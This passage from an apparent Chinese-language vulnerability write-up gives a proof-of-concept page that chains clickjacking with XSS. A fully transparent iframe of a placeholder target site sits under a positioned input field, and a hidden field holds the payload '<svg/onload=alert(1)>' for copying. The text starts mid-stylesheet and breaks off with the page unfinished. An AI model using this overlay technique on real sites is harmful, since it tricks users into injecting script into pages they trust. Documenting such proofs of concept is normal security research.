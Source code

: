 ```css
    left: 0;
    right: 550px;
    display: block;
    top: 640px;
}
```

iframe框架&&输入框：

```html
<div class="testframe">
    <iframe src="https://website/New"></iframe>
    <input type="text" id="submit">
</div>
```

#### 最终PoC

```html
<html>
<head>
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
#test {
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
#submit {
    position: fixed;
    width: 614px;
    height: 30px;
    margin: 0 auto;
    left: 0;
    right: 550px;
    display: block;
    top: 640px;
}
</style>
</head>
<body>
<input type="text" id="test" value='<svg/onload=alert(1)>'><br>
<input type="submit" value="test" onclick="cpy()">
```